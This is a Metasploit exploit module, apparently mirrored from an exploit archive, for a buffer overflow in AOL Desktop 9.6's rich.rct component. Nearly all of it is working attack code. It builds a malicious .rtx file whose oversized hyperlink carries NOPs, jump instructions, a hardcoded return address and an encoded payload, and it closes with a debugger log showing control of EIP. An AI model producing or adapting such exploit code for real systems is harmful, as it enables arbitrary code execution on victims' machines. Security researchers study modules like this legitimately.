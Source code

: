 EXP
---

    ##
    # $Id: aol_desktop_linktag.rb 12284 2011-04-08 23:09:31Z sinn3r $
    ##

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
        Rank = NormalRanking

        include Msf::Exploit::FILEFORMAT

        def initialize(info={})
            super(update_info(info,
                'Name'           => "AOL Desktop 9.6 RTX Buffer Overflow",
                'Description'    => %q{
                        This module exploits a vulnerability found in AOL Desktop 9.6's Tool\rich.rct
                    component. By supplying a long string of data in the hyperlink tag, rich.rct copies
                    this data into a buffer using a strcpy function, which causes an overflow, and
                    results arbitritray code execution.
                },
                'License'        => MSF_LICENSE,
                'Version'        => "$Revision: 12284 $",
                'Author'         =>
                    [
                        'sup3r',     #Initial disclosure, poc (9.5)
                        'sickn3ss',  #9.6 poc
                        'sinn3r',    #Metasploit
                    ],
                'References'     =>
                    [
                        [ 'OSVDB', '70741'],
                        [ 'URL', 'http://www.exploit-db.com/exploits/16085/' ],
                    ],
                'Payload'        =>
                    {
                        'BadChars' => "\x00\x0d\x0a\x3e\x7f",
                        'StackAdjustment' => -3500,
                    },
                'DefaultOptions' =>
                    {
                        'ExitFunction' => "process",
                    },
                'Platform'       => 'win',
                'Targets'        =>
                    [
                        [
                            'AOL Desktop 9.6 on Windows XP SP3',
                            {
                                'Ret'=>0x01DB4542,  #0x01DB4542 JMP ESI
                                'Offset'=>5391,     #Offset to EIP
                                'Max'=>8000,        #Buffer max. Can be more.
                            },
                        ],
                    ],
                'Privileged'     => false,
                'DisclosureDate' => "Jan 31 2011",
                'DefaultTarget'  => 0))

                register_options(
                    [
                        OptString.new( 'FILENAME', [false, 'The filename', 'msf.rtx'] ),
                    ]
                )
        end

        def exploit

            # Compatible with what the poc has, and what I see on my debugger
            sploit  = ''
            sploit << rand_text_alpha(4968+16)
            sploit << payload.encoded
            sploit << rand_text_alpha(5368-sploit.length)
            sploit << make_nops(11)
            sploit << "\xe9\x70\xfe\xff\xff"  #JMP back 400 bytes
            sploit << [target.ret].pack('V')
            sploit << make_nops(target['Offset']-sploit.length-2)
            sploit << "\xeb\x04"
            sploit << [target.ret].pack('V')
            sploit << payload.encoded
            sploit << rand_text_alpha(target['Max']-sploit.length)

            link_value = rand_text_alpha(6)

            rtx  = "<HTML>"
            rtx << "<A HREF=\"#{sploit}\">#{link_value}</A>"
            rtx << "</HTML>"

            print_status("Creating #{datastore['FILENAME']}...")
            file_create(rtx)
        end
    end

    =begin
    0:000> g
    Breakpoint 0 hit
    eax=00000006 ebx=06652370 ecx=02d9c898 edx=038d0000 esi=00000000 edi=02d99b30
    eip=6909e187 esp=0022e638 ebp=0022e648 iopl=0         nv up ei pl nz na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
    rich!ToolInit+0xed2c:
    6909e187 e85cd50300      call    rich!ToolInit+0x4c28d (690db6e8)
    0:000> g
    (8d8.924): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    eax=00000000 ebx=02d38358 ecx=00000000 edx=00000030 esi=02d53cb8 edi=0022e7c4
    eip=43434343 esp=0022e760 ebp=0022e780 iopl=0         nv up ei pl nz na po nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210202
    43434343 ??              ???
    0:000> dd esi
    02d53cb8  43434343 43434343 43434343 43434343
    02d53cc8  43434343 43434343 43434343 43434343
    02d53cd8  43434343 43434343 43434343 43434343
    02d53ce8  43434343 43434343 43434343 43434343
    02d53cf8  43434343 43434343 43434343 43434343
    02d53d08  43434343 43434343 43434343 43434343
    02d53d18  43434343 43434343 43434343 43434343
    02d53d28  43434343 43434343 43434343 43434343
    =end